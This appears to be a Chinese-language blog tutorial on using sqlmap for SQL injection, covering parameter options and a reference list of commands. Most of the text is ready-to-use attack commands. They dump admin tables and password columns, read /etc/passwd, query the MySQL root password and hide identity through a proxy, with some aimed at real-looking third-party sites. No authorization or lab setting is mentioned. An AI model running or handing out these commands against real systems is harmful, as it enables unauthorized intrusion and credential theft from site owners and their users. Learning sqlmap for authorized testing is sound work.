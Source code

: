 ```yaml
---
title: Net(4)—sqlmap 使用指南
date: 2020-11-19
author: LM
tags: ["网络测试"]
---
```


## 1.sqlmap中部分参数的备注

### 星号（ * ）

在注入的过程中，有时候会存在伪静态的页面，此时可以使用星号表示可能存在注入的部分

sqlmap可以区分一个 URL 里面的参数来进行注入点测试，但在遇到了一些做了伪静态的网页就无法自动识别了。

```bash
'/admin/1/' 类似于这种，SQLMap 便无法进行注入测试，但它实际上可能是这样的：'/admin.php?id=1'
```

它只是把参数隐藏在了 URL 中，对于这种网页，直接在参数后加上一个星号即可。

```bash
sqlmap -u "www.baidu.com/admin/1*"
```

### –data

使用post方式提交的时候，就需要用到data参数了

### -p

当我们已经事先知道哪一个参数存在注入就可以直接使用-p来指定，从而减少运行时间

### –level

不同的level等级，sqlmap所采用的策略也不近相同，当–level的参数设定为2或者2以上的时候，sqlmap会尝试注入Cookie参数；当–level参数设定为3或者3以上的时候，会尝试对User-Angent，referer进行注入。

### –random-agent

使用该参数，sqlmap会自动的添加useragent参数，如果你知道它要求你用某一种agent，你也应当用user-agent选项自己指定所需的agent

### –technique

这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式。支持的探测方式如下：

- B: Boolean-based blind SQL injection（布尔型注入）
- E: Error-based SQL injection（报错型注入）
- U: UNION query SQL injection（可联合查询注入）
- S: Stacked queries SQL injection（可多语句查询注入）
- T: Time-based blind SQL injection（基于时间延迟注入）

## 2.常用的指令

```lua
检查注入点             sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11"
列数据库信息            sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" --dbs
指定库名列出所有表       sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx --tables
指定库名表名列出所有字段  sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin --columns
指定库名表名字段dump出指定字段
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin -C ac,id,password --dump    
                                                                               
有几个参数可能会用到，直接加在最后面
--cookie=COOKIE                            在需要登录的地方，需要登录后的cookie
--proxy="http://127.0.0.1:8087"            使用HTTP代理隐藏自己的身份，比如使用goagent等
--sql-query=QUERY                          执行一个sql语句，不一定支持

命令解释（-v 等级1）
sqlmap -u "注入地址" -v 1 --dbs              // 列举数据库   
sqlmap -u "注入地址" -v 1 --current-db       // 当前数据库  
sqlmap -u "注入地址" -v 1 --users            // 列数据库用户  
sqlmap -u "注入地址" -v 1 --current-user     // 当前用户  
sqlmap -u "注入地址" -v 1 --tables -D "数据库"                          // 列举数据库的表名  
sqlmap -u "注入地址" -v 1 --columns -T "表名" -D "数据库"               // 获取表的列名  
sqlmap -u "注入地址" -v 1 --dump -C "字段,字段" -T "表名" -D "数据库"   //获取表中的数据，包含列   
```

## 3.Sqlmap参数使用实例

```rust
//指定参数注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "id" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "cat,id" 
//指定方法和post的数据 
   sqlmap -u "http://192.168.1.47/page.php" --method "POST" --data "id=1&cat=2" 
//指定cookie,可以注入一些需要登录的地址 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --cookie "COOKIE_VALUE" 
//通过代理注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --proxy "http://127.0.0.1:8118" 
//指定关键词，也可以不指定。程序会根据返回结果的hash自动判断 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --string "STRING_ON_TRUE_PAGE" 
//显示指定的文件内容，一般用于php 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --file-read /etc/passwd 
//执行你自己的sql语句。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --sql-query="SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1"     
//union注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --union-check 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --union-use --banner 
//保存注入过程到一个文件，还可以从文件恢复出注入过程，很方便，一大特色。你可以在注入的时候中断，有时间再继续。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -b -o "sqlmap.log" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --banner -o "sqlmap.log" --resume
```
